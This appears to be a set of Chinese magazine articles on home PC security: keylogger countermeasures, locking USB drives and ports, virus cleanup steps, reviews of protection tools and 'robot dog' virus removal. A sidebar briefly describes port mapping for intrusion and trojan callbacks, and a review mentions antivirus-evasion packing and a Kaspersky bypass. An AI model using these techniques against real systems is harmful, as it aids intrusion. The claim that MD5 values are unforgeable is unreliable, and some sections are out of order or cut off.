- 文中最后复制目标影音文件采用“搜索”法（按扩展名如 `*.flv`、`*.swf` 等）在缓存目录中查找。若缓存中文件很多会很耗时。更高效的方法是先清空“垃圾桶”（Ctrl+A 全选后删除），再重新缓存目标文件，完成后可快速从少量新增文件中定位目标文件。

最后再补充一点：第一步处理中“必须把影音文件从头到尾播放一次”的说法并非绝对，通常缓冲完整即可，无需完整播放，可节省时间。

## 移形换影——让木马无计可施

EvilメFan

常在网上走，哪能不被盗！相信许多读者都有过自己心爱的QQ号或网游帐号被盗的经历吧，为什么我们上网那么谨慎，还是逃不过木马的魔爪呢？明明安装有杀毒软件和网络防火墙，可是为什么我们的帐号还是被盗了？这就是所谓的“道高一尺，魔高一丈”。

现在的木马基本上都能够穿过防火墙，还都经过了免杀处理，这让系统的一些安全设置形同虚设。许多木马是在已开启的窗口搜索与用户密码相关的字符串，然后开始键盘记录以盗取密码，此外还有内存截取等方式。防范的常见方法包括在输入密码时插入无关字符、打乱输入顺序、使用粘贴复制等。

但这些方法并非万能，尤其面对远程控制型木马时，键盘记录和剪贴板监控都可能导致失效。因此需要更主动的混淆输入方案。

下面介绍一款“帐号守护者”工具。它的核心思路是利用别的键值替代真实键值，以欺骗键盘记录木马。例如设置“A”替代“1、2”，并可通过“高级设置”调整规则。

有三种保护模式和“一键双雕”功能。“一键双雕”可以让一个键值代替两个键值。通过设置A、B、C分别代替1、2、3，就能在输入真实密码时形成映射输入，从而干扰键盘记录结果。

例如真实想输入123456，经过映射后可输入ABC456。正常键盘记录应显示“ABC456”，但在工具保护下，记录结果会变成无意义字符（如“|||456”或“vvv456”），从而无法正确识别原始密码。

可见该方法成功欺骗了键盘记录器，适合于很多纯键盘输入场景。但若软件有更强的保护机制（如QQ键盘锁），效果可能受限。

工具还支持快捷键开关和“伪装标题栏”等功能。启用后窗口标题可随机变化（如每秒切换），可进一步干扰依赖窗口标题进行关联记录的键盘记录器。

这个工具的使用方法并不复杂，掌握后可用于保护帐号和密码安全。（文中涉及的帐号守护者已收录到光盘中）

## 看小菜的零工具U盘防毒方法——NTFS权限的应用+批处理

Awolf[BWOT]

经常看到高手写出XX软件进行U盘防毒，但很多像我一样的小菜因为水平有限都不能掌握这种技术，那么今天就随我一起看下小菜的零工具U盘防毒方法。

U盘病毒当然是要写入才能传播的，所以我们的思路就是修改U盘的写入权限，这样就可以轻松防毒。Windows常见文件系统有NTFS和FAT，NTFS安全性更好，本文介绍如何利用NTFS访问控制权限与批处理实现防护。

### 一、原理——手工设置

### 1. 格式化U盘为NTFS格式

插入U盘，在U盘的盘符上单击鼠标右键，选择“属性”。在“属性”对话框中选择“硬件”标签，将会出现所有磁盘驱动器列表，选中U盘的磁盘驱动器并单击“属性”，在出现的策略标签页中勾选“为提高性能而优化”，确定后即可将U盘格式化为NTFS格式（如图1）。

### 2. 开始设置访问权限

右击U盘，找到“安全”选项（XP默认可能看不到，需在“工具→文件夹选项→查看”中关闭“使用简单文件共享”），选择“高级”，选中“administrator”用户组，点击“编辑”，取消“允许”中的“创建文件”“创建文件夹”“写入属性”“删除子文件夹”“更改权限”等勾选（按实际情况调整），如图2。

图2中还有“用在此显示的可以应用到子对象的权限替换...”等选项，可按需要配置。权限设置后可测试U盘：尝试新建文件时会提示“拒绝访问”（图3），常见如Autorun.inf也无法写入。

若删除权限后仍有提示，可继续尝试删除“文件夹/文件删除权限”；即使操作简单，手工逐项设置仍较繁琐，如图4所示。

### 二、一气呵成——批处理轻松自动设置

Windows下可用 `cacls` 命令修改文件和文件夹权限。通过批处理即可自动完成上述设置。下方列出关键代码，完整代码见附带批处理程序。

- 防读权限（J为U盘盘符）：
- 完全控制权限：

```bat
@echo y|cacls j:\ /c /g administrators:r
@echo y|cacls j:\ /c /g administrators:f
```

### 三、学习总结

本文方法并不复杂但很实用，尤其适合U盘权限防护。NTFS权限应用不仅限于此，也可按需对特定文件/目录设定权限并写成批处理方便使用。

> 小编注：若以 administrators 账户登录系统且取消了U盘所有权限，可能导致自己也无法正常读写U盘，因此实际配置时不应机械套用本文参数。

（文中涉及的批处理代码已收录到光盘中）

## 我的USB端口我作主——为USB端口装上“加密锁”

花的神明

目前优盘、移动硬盘等USB设备的使用越来越广泛，在方便了数据移动存储的同时也给系统带来了潜在的危险。特别是在存储了重要数据的电脑上，别有用心者只需要轻轻插上优盘，存储在电脑中的重要数据就会“不翼而飞”。即使是正常使用USB设备，也难保潜伏在某种病毒等恶意程序会乘机进入电脑进行破坏，让你费尽心机设置的安全防线瞬间崩溃。因此合理控制USB设备的使用，对于系统的正常运行有着非同一般的作用。解决的最好办法就是对USB端口进行加密处理，对连接到本机上的任何USB设备进行安全认证，这样就可以有效避免其他人在本机上随意使用USB设备了。本文就将介绍Secure Endpoint USB、Secure It Easy、MyUSBOnly和Driver Block等USB端口加密软件的详细使用方法，以让我们轻松为USB端口装上“加密锁”。

在系统托盘中的SEU图标的右键菜单中点击“Open Secure Endpoint USB”项，在SEU管理窗口中的“USB Device Protection”栏中列出所有受到保护的USB设备，在对应的USB设备前面如果显示绿色的，表示该设备可以正常使用；如果显示红色的标记，表示禁用该设备；如果显示带问号的标记，表示每次使用该USB设备时都会弹出SEU的监控认证窗口（图2）。点击“Remove”按钮，可以将该USB设备从保护列表中删除；当以后使用该设备时，仍然需要经过SEU的安全认证。为了防止其他人随意终止SEU的运行，SEU采用了特殊的运行机制，在系统底层取得USB端口的监控权限，可以从底层对USB设备的使用情况进行全面监控。对于没有通过认证的USB设备，即使你从系统托盘中关闭SEU，当插上该USB设备时，SEU也会从系统底层禁用该设备，从表面上看Windows对连接的USB设备毫无反应，如同USB端口损坏了一样。

### 一、使用Secure Endpoint USB加密USB端口

使用Secure Endpoint USB之前需要对其进行激活操作，在其安装程序的“Product Activation”窗口中点击“Get Activation Code”按钮，在弹出的网页的“Email address”栏中输入你的Email地址（建议使用Hotmail、Gmail等邮箱），然后点击“Submit”按钮，很快在你的邮箱中就会收到包含激活码的邮件。在安装窗口中输入该激活码，在下一步窗口中会检测当前已经安装的USB设备（例如USB键盘鼠标等），如果你需要让其通过Secure Endpoint USB安全认证的话，在“Trust all attached USB devices?”列表中选择“Yes”即可。SEU安装完成后需要重新启动系统，并且其可以跟随系统自动加载。SEU的安全管理功能是和Windows的账户管理机制紧密相连的，因此当前使用的账户必须设置有登录密码，这样SEU的安全管理功能才能发挥作用。当你将USB设备连接到电脑后，SEU会立刻探测到USB设备的连接动作，并弹出USB设备安全管理窗口（图1），在其中的“Device Info”栏中显示该设备的名称，在“Active to take”面板中的“Account”栏中显示当前账户的名称，在“Password”栏中需要输入该账户的密码，点击“Allow”按钮，表示可以正常加载和使用该USB设备；点击“Block”按钮，表示拒绝使用该USB设备。如果同时勾选了“Don’t ask me again”项，表示当再次连接同一个USB设备时自动按照上述的选择执行激活或者禁用操作。这样所有连接的USB设备就全部处于SEU的管理之中了。

图2

图1

### 二、使用Secure It Easy为USB端口加密

Secure It Easy的运行需要Microsoft .NET Framework 2.0组件的支持，并且当前用户必须具有管理员权限。Secure It Easy安装完成后会将自身注册为名为“Secure It Easy”的系统服务，并且可以自动跟随系统启动。然后不管我们连接任何USB设备，Secure It Easy都会在系统托盘的上方弹出禁用该设备的提示信息。在系统托盘中的Secure It Easy图标的右键菜单上点击“Settings”，在其管理窗口中的“Devices”面板中会列出所有连接的USB设备信息，包括其状态、描述信息、PID、VID、用户信息、串行号、设备类型等数据（图3）。默认情况下，对应USB设备的“Status”列中显示为红色的禁用标记，在其右键菜单上点击“Check”项，该设备的“Status”列就自动处于选中状态，同时显示图标变成绿色标记，然后就可以正常加载和使用该设备了（图4）。

## 安全第一

面板左下角的“Check All”项即可。如果需要禁用对应的USB设备，在对应USB设备的右键菜单上点击“Uncheck”项即可。按照上述方法，你可以灵活地控制USB设备的使用情况。点击该面板右下角的“Refresh List”按钮，可以刷新上述USB设备管理列表。

图3

图4

在Secure It Easy管理窗口工具栏中点击“Settings”按钮，然后在“E Mail Notification”面板中勾选“Enable e mail notifications”项，表示激活邮件报警功能（图5）。

图5

当Secure It Easy检测到有人在本机中试图连接USB设备时，可以自动向预设的邮箱发送报警邮件。

在“E-Mail Settings”栏中依次输入发信人地址、收信人地址、抄送地址、邮件主题、SMTP服务器等信息。如果发信服务器需要认证的话，勾选“SMTP Server requires authentication”项，在其下输入SMTP服务器的账户名和密码，点击“Send Test E Mail”按钮，可以对该邮箱进行测试。在“General Settings”面板的“Service Control”栏的“Service”列表中可以改变Secure It Easy服务的运行状态（包括自动、手动、禁止等）。在默认状态下，其处于自动运行状态，点击“Stop”按钮可以停止该服务（图6）。

图6

在“Security- Application Password Protection”栏中点击“Set Password”按钮，可以为Secure It Easy设置管理密码。这样在打开其管理窗口时就必须输入预设的密码，防止对其进行配置操作，这样可以有效地防止其他人随意更改USB设备的使用状态。在默认状态下，当插入USB设备时，Secure It Easy都会弹出拦截信息，这在很大程度上会“暴露”其“行踪”，在“User Notification”栏中点击“Stop”按钮，可以取消其信息提示功能，便于增强其运行的隐蔽性。为了加强对USB设备使用的情况进行统计，Secure It Easy提供了日志记录功能，可以精确地记录所有USB设备的使用情况。在Secure It Easy管理窗口工具栏中点击“Report”按钮，在“Log File”面板的日志列表中显示了所有USB设备的使用情况，包括连接时间、描述信息、VID、PID、串行号、计算机名称、账户信息、动作（包括连接、激活、禁用等状态）等信息，让我们可以对本机上USB设备的使用情况一目了然（图7）。

图7

在“Log Size Limit”栏中可以设置日志文件的大小，选择“By Days”项，可以按照日、月、星期、年份为单位设置日志记录的有效期。选择“By Size”项，可以按照容量的大小（包括KB、MB、TB等单位）来设置日志文件的大小。如果选择“Disabled”项，表示日志文件的大小不受任何限制。点击“Clear Log”按钮可以清空日志信息。在“Export Log”栏中可以设置日志文件的导出路径，点击“Export”按钮将日志文件导出后单独保存。

### 三、使用MyUSBOnly为USB端口加密

MyUSBOnly可以将自身添加到系统启动项中，这样可以跟随系统自动运行。MyUSBOnly的运行机制比较特殊，其采用了和大多数防火墙软件类似的黑白名单管理机制，对于经过认证的USB设备将其添加到白名单中，对于禁用的USB设备将其添加到黑名单中。在系统托盘中的MyUSBOnly图标的右键菜单中选择“General Setup”项，在弹出的MyUSBOnly登录对话框中输入密码（初始密码为“0000”），在MyUSBOnly管理窗口左侧点击“Device Whitelist”项（图8），在右侧窗口可以执行USB设备的认证操作。点击“Start Detect”按钮，然后插上所需的USB设备，点击“Detect”按钮，在认证列表中即可显示当前连接的所有USB设备，选中“允许正常使用的USB设备的名称”，点击“Add to Whitelist”按钮，即可将其添加到“Device Name Whitelist”列表中，该列表中的所有设备都可以正常使用，之外的USB设备则禁止使用。最后点击“Save”按钮保存白名单设备。然后重新连接通过认证的USB设备，就可以正常加载使用了。按照上述方法，你可以非常方便地管理USB设备。

在MyUSBOnly管理窗口左侧点击“General Setup”项，在右侧窗口的“Setup Window Access Password”栏中可以更改MyUSBOnly的登录密码，这样就可以禁止其他人随意篡改你的USB设备白名单。默认情况下，在系统托盘中会显示MyUSBOnly的图标，为了加强其运行的隐藏性，可以取消“Display tray icon”项的选择，这样可以让MyUSBOnly图标从系统托盘中消失（图9），当然你也可以随时敲击“Ctrl + F5”热键来打开其管理窗口。取消“Instant prompt for unknown USB storage device”项的选择，可以在连接USB设备时，禁止MyUSBOnly弹出相关提示信息。这样，MyUSBOnly就可以悄无声息地禁用该USB设备，从表面上给人造成系统出错或者USB端口损坏的假象。

MyUSBOnly不仅可以监视USB设备的使用情况，还可以同时向你发送报警邮件。在“E-Mail Notification”栏中勾选“E-Mail Notification when device connected”和“E-Mail Notification when device disconnected”项，表示当连接或者移除USB设备时，可以向预设的邮箱发送报警邮件。

在其下可以设置收件人地址、邮件主题、SMTP服务器地址，勾选“SMTP Server requires authentication”项，可以设置SMTP服务器的账户名称和密码信息，点击“Send Test E-Mail”按钮，可以发送测试邮件。当然，你可以随时打开“Sent Log”面板，在其中查看所有发送的报警邮件信息。最后点击“Apply Changes”按钮保存配置。为了便于统计USB设备的使用情况，在MyUSBOnly管理窗口左侧点击“Device Usage Log”项，在右侧窗口中显示完整的日志信息，依次包括USB设备的名称、分配的盘符、采取的动作（连接或者拔出）、是否经过MyUSBOnly的认证、连接或者拔出的时间等，让你能够清晰地了解USB设备连接使用情况。

### 四、使用Driver Block为移动设备加锁

同以上软件相比，Driver Block是一款小巧精悍的移动设备管理工具，能够很方便地激活或者禁用所有的移动存储设备。在Driver Block安装程序的“Input administrator password”窗口中勾选“Conceal password while typing”项，表示不显示输入的密码信息，在“Input Password”和“Repeat Password”栏中输入密码，点击OK按钮即会打开“Input Supervisor password”窗口，在其中可以设置超级用户密码，这样如果忘记了管理密码，还可以使用超级用户密码为Driver Block解锁。在任务栏系统托盘中双击Drive Blocker图标，在主窗口的“Removable Drives Status”栏中显示“Locked”字样（图10），表示当前的所有移动存储设备全部处于锁定状态。

不管连接任何移动存储设备，Drive Blocker都会抢在Windows对其正常加载使用前禁用该设备，同时造成Windows无法正常管理可移动存储设备的情况，系统会弹出“拒绝访问”的警告窗口，这样其他人就无法在本机上使用移动存储设备了。当你想使用移动存储设备时，可以在Drive Blocker主窗口的“Password”栏中输入管理密码或者超级用户密码，点击“Unlock Drives”按钮，在“Removable Drives Status”栏中显示“Unlocked”信息，表示解除移动存储设备的锁定状态，然后就可以正常连接使用各种移动存储设备了。当点击“Lock Drives”按钮，可以重新锁定设备。它所有的移动存储设备。Drive Blocker 采用了特殊的进程保护机制，别人无法在 Windows 的任务管理器中终结其运行。在默认情况下，Drive Blocker 将自身添加到系统启动项中，可以跟随系统自动运行。如果需要卸载 Drive Blocker，必须在其管理窗口中点击菜单“Files”→“Uninstall Driver Block”项，输入正确的管理密码或者超级用户密码后，才可以将其彻底卸载。（本文所涉及到的 Secure Endpoint USB、Secure It Easy、MyUSBOnly 和 Driver Block 已收录到光盘中）

## 菜鸟中毒后的自救十四步

梁天爽


各位菜鸟，如果你们的电脑自动重启、运行速度非常慢、杀毒软件也无故失踪、CPU 占用率老是超过 50%，那么就要小心了，这很有可能是因为你的电脑已经被病毒和木马给盯上了。如果我们能够在第一时间内做出正确的反应，就可以使自己的损失减少到最低。本文就是当你怀疑自己的电脑中了病毒和木马后所适合采取的 14 个应急步骤！

- 1. 立刻退出 QQ、MSN，断开网络（必要时再开通），并在保证系统安全之前不要登录，以防止被人盗号或者使用你的账号为非作歹、发送广告等。
- 2. 按 `CTRL+ALT+DEL` 调出任务管理器，查看有什么可疑程序在运行。若发现可疑进程可先结束，观察系统是否恢复；特别注意名称相同且数量不断增多的进程、伪装为系统账户（如 SYSTEM/NETWORK SERVICE）或带有异常后缀（如“0”“1”）的进程。
- 3. 将杀毒软件升级到最新，对系统进行全面检查。手动查杀可辅助，但主要依赖杀毒软件处理已知流行病毒。
- 4. 打开“我的电脑”→“工具”→“文件夹选项”→“查看”，取消“隐藏受保护的操作系统文件（推荐）”与“隐藏已知文件类型的扩展名”，便于排查。
- 5. 重点检查 `win.ini`、`system.ini`，这些系统配置文件常被木马利用进行加载；可通过记事本或“开始”→“运行”方式查看。
- 6. 查看 Windows 目录下的 `SYSTEM.INI` 文件，检查是否存在可疑外加驱动程序路径（如 `device=...`）。
- 7. 查看“开始菜单”中的“程序”→“启动”，这里是随 Windows 自动执行程序的位置；发现可疑项可先备份后删除。
- 8. 在“开始”→“运行”输入 **MSCONFIG**，检查可疑启动项；与第 7 步互为补充。
- 9. 在“开始”→“运行”输入 **REGEDIT** 启动注册表编辑器，查看并处理可疑项；操作前应先备份注册表。


系统配置实用程序，在这儿我们方便地查看 `win.ini`、`system.ini` 以及系统启动项等，如图2、图3。


图4

百度查找一下，基本上就会找到答案了。下面的四个地方是常见的启动项和文件关联：

- 1. 查看 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices` 和 `Run` 项，查看有没有可疑的程序。
- 2. 查看 `HKEY_CLASSES_ROOT\EXEFILE\SHELL\OPEN\COMMAND`，查看是否有 `.EXE` 文件关联的木马，正确值为 `"%1" %*`。
- 3. 查看 `HKEY_CLASSES_ROOT\INFFILE\SHELL\OPEN\COMMAND`，查看是否有 `.INF` 文件关联的木马，正确值为 `%SYSTEMROOT%\SYSTEM32\NOTEPAD.EXE %1`。
- 4. 查看 `HKEY_CLASSES_ROOT\TXTFILE\SHELL\OPEN\COMMAND`，查看是否有 `.TXT` 文件关联的木马，正确值为 `%SYSTEMROOT%\SYSTEM32\NOTEPAD.EXE %1`。


图5

- 10. 对于 Windows 中的执行文件 `.exe`、`.com`……它们都可能是黑客放置的病毒或病毒携带者。建议在系统正常时备份系统目录中的可执行文件和 DLL 文件，必要时可替换恢复，或使用一键 Ghost 等方式及时恢复系统。
- 11. 在 Windows 目录下，查看是否有名为 `Winstart.bat` 的文件。这个文件类似 `Autoexec.bat` 的自动批处理文件，留意是否有不明驱动程序并记录后查询。
- 12. 查看 `C:\autoexec.bat` 与 `C:\config.sys`，检查是否有可疑驱动程序。不要轻易修改或删除；删除后病毒可能不启动，但系统也可能无法启动。
- 13. 在“我的电脑”上点鼠标右键，选择“事件查看器”，或在“开始”→“运行”中输入 `eventvwr.msc` 来查看日志，看看其中有没有什么可疑内容，如图6。里面包含“应用程序、安全、系统”等分类。双击错误项可查看发生时间、事件 ID 及解释，并可通过链接进入帮助与支持中心获取知识库对应解决方案。系统蓝屏错误也会包含在事件查看器中。


图6


图7

- 14. 在 CMD 下输入 `NET USER` 查看有没有可疑用户（如图7）。如果出现自己未曾设置的用户，可使用 `NET USER ABCD /DEL` 删除（ABCD 为用户名）。也可借助检查隐藏用户工具；有些黑客建立的用户一般方法不可见，需要特别注意。

在我们的电脑中毒后，只要按照以上这 14 步，养成良好习惯，就可以将损失减到最低，并更好地保障电脑安全。


## 保护杀毒软件的使者

牛晓东

在与杀毒软件的对抗过程中，有一类病毒木马通过修改特征码等手段实现“免杀”型；还有一类则是先检测各种杀毒软件的进程然后再干掉杀毒软件。对于前者，可以通过在升级的病毒库中加入对应的病毒特征码来重新查杀，而对于后者，则可以将一些专门维护杀毒软件进程、一旦发现杀软进程被非法关闭立即恢复的软件称为“Process watchdog”。

将文件解压缩后双击运行其中的“WatchDOC”（绿色对号图标），然后在弹出的“SETUP”窗口的“Language”处单击默认选择的“English”，选择“Simplified Chinese”（图1），将界面语言设置为“简体中文”。

接下来在这个“设置”窗口中进行一些必要的设置：“检测间隔”和“运行延迟”可根据自己电脑的配置来具体设置。检测数值越小代表检测频率越高，也就是越花费系统资源，当然安全系数也就越高。在下面的“更多选项”中，选择“随系统启动 WatchDOC”和“启动至托盘”（图2），然后单击右下角的“保存”按钮。

这时会弹出一个“狗”窗口（图3），先单击一下“刷新进程列表”按钮，然后在列表中找到自己电脑所安装的杀毒软件进程，双击后它就会出现在右侧“监视”项中。随后在“如进程未发现则运行文件”处设置杀毒软件主程序路径，完成后单击“开始”按钮即可。


（本文所涉及到的 Process watchdog 已收录到光盘中）

## 让微点主动防御来保护我们的电脑

天涯衰草

前段时间有两则不同的新闻吸引了我，分别是“反病毒专杀功能作者找出来？”以及“杀毒软件前景堪忧，对新病毒查杀率仅为 20%”。这两则新闻看上去好像风马牛不相及，但实际上反映的都是：在互联网病毒日益猖獗的今天，传统的杀毒软件已显得应付乏力，主动防御已成为防范未知病毒的主流方法。

### 一、软件安装设置

微点主动防御软件目前还没有正式销售，不过可以从其官方网站下载最新版本。安装包体积较小，双击安装后根据向导即可完成安装。安装过程中需要进行初始化设置，包括病毒处理方式、样本发送、实时监控策略等，一般使用默认设置即可。另外还需要填写基本注册信息，以便获得试用期。完成后重启系统，软件即可开始“服役”。

### 二、主动防御测试

既然微点主打“主动防御”，其特点就是防范未知病毒入侵，因此本文选择了可疑木马程序进行测试。测试中该程序运行后会在系统目录释放多个文件，并尝试修改系统注册表等敏感项，以观察主动防御软件的拦截效果。随机启动。当我运行服务器端程序后，程序立即弹出了一个提示窗口声称：“发现未知木马，是否删除？”（图2）。从图中我们可以看到，微点将木马程序释放文件的相关信息都分别列出了，默认选项也是“删除”。当我按照提示进行操作后，木马服务端文件以及释放出的文件都被彻底清除了。

接着我又使用最近流行的“小蠕虫”病毒进行了测试，该病毒是一款典型的 Autorun 类病毒，不但感染系统也会感染大量的移动设备，并且还会掩盖感染系统中的可执行文件。经过测试，发现微点不但成功阻止了病毒的运行，并且成功将其清除。对于微点提示的某些文件，如果用户可以肯定这个程序属于正常的，就可以选择“不删除”和“本次询问永久有效”。这种操作相当于把这个程序加入到了微点的可信任程序列表中，下次再运行该程序时就不会出现拦截警告了。当然用户也可以手动添加可信任程序列表，点击“安全防护与策略”中的“程序行为实时监控策略”选项，然后在弹出的“可信程序设置”中进行设置就可以了（图3）。


图2


图3

如果不想让程序每次都弹出提示窗口的话，可以将软件默认的“询问后处理”改为“自动处理”，这样程序在发现危险后将自动在系统后台进行处理，避免用户在玩游戏时突然弹出窗口而影响操作，这也是一个很人性化的设置。虽然我使用了加壳、加密、加花等多种方式来进行免杀，但是经过测试，发现这些方法对微点都毫无作用，由此可以看出微点并不是依靠传统的特征码来进行查杀，而是依据程序行为分析判断技术来判定病毒的，因此目前主流的免杀方法对于微点来说毫无效果，这样就对用户的系统起到了重要的保护作用。说到主动防御功能我们就不得不提卡巴斯基，可是我发现微点的主动防御远远强过卡巴斯基。另外卡巴斯基由于通过调整系统时间可以被轻易绕过，使得卡巴斯基的主动防御失效，不过这种情况不会出现在微点中。由于主动防御软件通常都是通过行为规则进行判读，因此倘若恶意程序在配置的时候故意绕过这项规则，那么微点还是起不到相应的提示防范，如果软件能够让用户自己设置行为规则的话，我想那就更好了。

### 三、ARP 攻击防范

双击桌面状态栏中的软件图标或直接点击桌面上的软件图标都可以立即启动微点主动防御软件。从软件界面中我们可以看到，微点还包括了网络防火墙功能。点击“安全防护与策略”中的“传统防火墙设置”选项，微点已经为用户提供了多个不同的规则包，用户可以根据自己的情况选择相应的规则包进行使用（图4）。


图4

另外在该功能中还有一个“绑定 MAC 地址”的按钮，也算是微点主动防御软件中的一个亮点。2007 年，ARP 攻击已经成了一种非常流行的攻击方式，这种攻击主要有两种不同的类型：一种是欺骗客户机，造成客户机不能正常访问网关，对于这种欺骗可以通过绑定网关 MAC 地址来进行很好的防范；另一种则是欺骗网关，告诉网关错误的客户机 MAC 地址，对于这种欺骗网关的攻击目前还没有软件能够很好地解决。我们点击“绑定 MAC 地址”按钮，在弹出的窗口中选择“查找所有主机”，然后从 IP 地址列表中选择自己的 IP 地址，点击“添加”按钮将其添加到“被绑定的地址列表”，并选择“启用绑定”就完成了 IP 地址和 MAC 地址的绑定（图5）。除了进行积极有效的防范外，微点主动防御软件还能结合主动防御功能查找出……


图5

## 安全第一

系统中存在的 ARP 病毒及其变种，这样就能够彻底根除存在于局域网内的 ARP 病毒源，从而杜绝 ARP 病毒对其它系统的攻击以及对局域网的破坏。

### 四、溢出漏洞防范

除了目前流行的 ARP 攻击外，利用系统以及应用程序的漏洞来进行远程入侵也是非常常见的攻击方式。在所有的漏洞类型中，溢出漏洞也是危险度最高的一种。入侵者通常使用各种扫描检测工具去寻找存在溢出漏洞的远程计算机系统，如果系统中存在这样的溢出漏洞，就会使用相应的溢出工具进行溢出攻击。

如果要想成功防范溢出漏洞，最好的方法就是安装系统补丁。假如没有及时进行漏洞修复的话，那么就只有等着“任人宰割”了。微点主动防御软件能够捕获并防御此类溢出攻击，一旦发现存在缓冲区溢出就会弹出一个提示窗口，告知用户发现缓冲区溢出并已经被阻止。据我所知，目前只有 Comodo Firewall 能够进行缓冲区溢出的防范，而在国内的杀毒软件中也只有微点可以很好地防御漏洞溢出。


图6

### 五、其它安全设置

除了上面介绍的那些功能外，微点还包括了一些实用功能。比如在安装微点软件前，系统中就已经被植入了某些流氓软件，这些软件对系统以及 IE 浏览器的属性进行了大幅修改。现在用户只需要选择“系统分析”中的“注册表保护”和“注册表修复”选项，就可以成功对被篡改的内容进行修复。

在软件提供的“注册表修复”工具中，可以对被锁定的 IE 主页、注册表和任务管理器等重要功能项进行解锁，从而避免这些功能无法正常使用。用户只要选择需要恢复的选项，单击窗口中的“解锁”按钮就可以了。另外为了防止注册表被恶意修改，在“注册表保护”中选择需要保护的选项，直接点击“保护”按钮即可（图6）。

通过“系统分析”中的“系统自启动信息”选项，可以查看系统中是否存在可疑的启动项，用户应该重点关注“程序说明”显示为“其他软件”的启动项。点击鼠标右键，通过其中的“隐藏已知的启动信息”就可以马上显示出“其他软件”的启动项。当鼠标指向可疑文件的时候，用户可以根据文件的属性信息初步判断该启动项是否可疑，并根据文件名到网上搜索查看相关信息，最终判断该文件是否是恶意软件（图7）。当确认是恶意软件的启动项后，点击鼠标右键，选择“仅删除自启动项”或“删除文件与自启动项”就可以进行清除，或者直接选择右键菜单中的“查找目标”，自动定位到此文件在系统中的位置删除即可。

现在有很多恶意软件通过更改系统时间导致安全软件出现授权过期的问题，通过微点提供的“锁定系统时间”功能就可以对系统时间进行相应的锁定保护。选择“安全防护策略”中的“程序行为实时监控策略”选项，先勾选窗口中的“锁定系统时间”选项，再点击“保存设置”按钮就可以了。


图7

攻击都是相当出色的，但是微点主动防御软件还是有主动防御软件致命的弱点，那就是仍然通过程序的行为规则来进行判断。因此假如黑客更换了全新的攻击方法，或是一些可以躲过主动防御的木马，微点就无法进行相应的防范操作了。另外，每次程序弹出提醒窗口都需要用户参与操作，所以还没有达到一定的智能程度，这对于普通用户来说判断起来还是非常困难的。

（本文所涉及到的微点主动防御软件已收录到光盘中）

## 什么是端口映射？

> 把 A 机器上的端口映射到 B 机器上，访问 B 机器映射端口就相当于访问 A 的被映射端口。

在入侵时因为防火墙把服务器的 3389 端口屏蔽了，我把 3389 端口映射到本地端口上，连接本地的映射端口就能登录服务器的远程桌面了。

你在内网的情况下，把木马的本地监听端口映射到公网的一台机器上，让上线主机连接公网机器的映射端口，你在本地就可以看到有上线主机了。

### 六、总结

总的来说，微点主动防御软件与其它同类杀毒软件相比，无论是对付流行的 Autorun 类病毒、ARP 欺骗攻击以及远程溢出……


## 悍打“机器狗”

李云

最近，网络上一种新的病毒迅速开始蔓延，其危害程度可比当年的“熊猫烧香”！这就是继“熊猫”以来第二个专门针对网吧而“量身定做”的特殊病毒——“机器狗”！……

判断呢？不用猜了，就是 MD5 校验值。任何程序的 MD5 校验值都是唯一的，而且是不可伪造的……我们正是通过这两点来对比……另外还可通过检查 `DRIVERS` 目录下是否有 `pcihdd.sys` 这个文件。

### 一、初识

我们先来了解一下这个病毒……中毒后会自动在 `DRIVERS` 目录下生成一个名为 `pcihdd.sys` 的驱动文件，并替换掉 `SYSTEM32` 下的 `userinit.exe` 文件……还会修改注册表项，并尝试通过 IE 下载更新病毒。

附：正常的 MD5 校验值

- `userinit.exe`: `bd70e6f53cb7398246c84d25bff33aa8`
- `explorer.exe`: `0b5596362c8129d9d2504a3c29174e0f`
- `conime.exe`: `30162ff3b6fe72a9799dfb496111fe02`
- `ctfmon.exe`: `4cc6277445d2d388a4cd827086a5f5f0`


### 三、对决

- 1. 断开网络，准备干净的 `explorer.exe`、`conime.exe`、`ctfmon.exe`、`userinit.exe` 替换损坏文件。
- 2. 结束进程 `explorer.exe`、`conime.exe`、`ctfmon.exe`、`userinit.exe`（或重启后迅速操作）。
- 3. 运行 `autoruns.exe`，在“登录”标签下删除木马启动项。
- 4. 在“服务”标签下删除可疑项。
- 5. 在“映像劫持”标签下删除所有项目。
- 6. 卸载杀毒软件并重新安装。
- 7. 更新系统补丁与杀毒软件，全盘扫描。
- 8. 若仍不行再求助论坛。

### 二、辨别

知道了病毒都做了什么，那就先检查一下自己的电脑有没有中毒……可以通过查看 `userinit.exe` 文件属性判断（图1、图2）。正常应有“版本”标签，而有问题的则没有。


### 四、防御

我在网上收集了一些免疫补丁，大家可以试试。不过补丁并不能补住过去式，下面来说一个更好的办法。重点来了，如何更好地防范病毒呢？方法就是合理地控制权限。

## 安全第一

对我们平时的需求来说，ADMIN 的很多高级权限都用不到，而病毒却恰好充分利用了这些高级权限。简而言之，只要我们的用户不是 ADMIN 权限，那就没问题了。可是 USER 权限似乎满足不了我们，怎么办呢？微软早替大家考虑过了，在 ADMIN 和 USER 之间还有一个 POWER USER（高级用户）用户组，只要把我们的用户放进去就万事大吉了！方法如下：

- 1. 右键点“我的电脑”，点“管理”选项，如图4。
- 2. 双击“本地用户和组”，然后选择“用户”，如图5。
- 3. 在右边的空白处单击右键，点“新用户”，如图6。
- 4. 只输入用户名和密码（密码最好强壮点），点“创建”，如图7。
- 5. 右键点击刚建立的用户，点“属性”，如图8。
- 6. 切换到“隶属于”标签下，删除掉下面的 USERS，如图9。
- 7. 点击“添加”，点击“高级”，如图10。
- 8. 点击“立即查找”，选中 POWER USERS，一直点确定就 OK 了，如图11。


将系统所在分区转换为 NTFS 格式，将 userinit.exe 等你认为病毒会感染的文件的安全权限改为只读和运行，如图12。到此保护工作就基本结束了。

不过也许有些程序（安装程序 .MSI）需要 ADMIN 权限才能运行，在你确定它不是病毒的情况下可以使用 lsrunase.exe 这个工具。这个工具可以较完美地替代 runas，并避免直接将密码明文保存在脚本中，其用法如下：

```bash
lsrunase /user:administrator /password:4!BngA== /domain:. /command:notepad.exe /runpath:c:\windows
```

所有的参数必须齐全。其中：

- user 为运行的账号
- password 为密码加密后的字串
- domain 为机器名或域名（. 也可留空，代表本机）
- command 为要运行的程序名
- runpath 为程序启动的路径


### 五、结语

至此机器狗病毒就被我们完全解决掉了。把一开始的问题拿出来：“这个病毒很厉害吗？”我想各位读者的答案都应该是：NO！（本文所涉及到的 MD5 校验工具、冰刃、Autoruns、lsrunase 和机器狗补丁已收录到光盘中）


## 纯手工保护光盘数据

毕伟伦

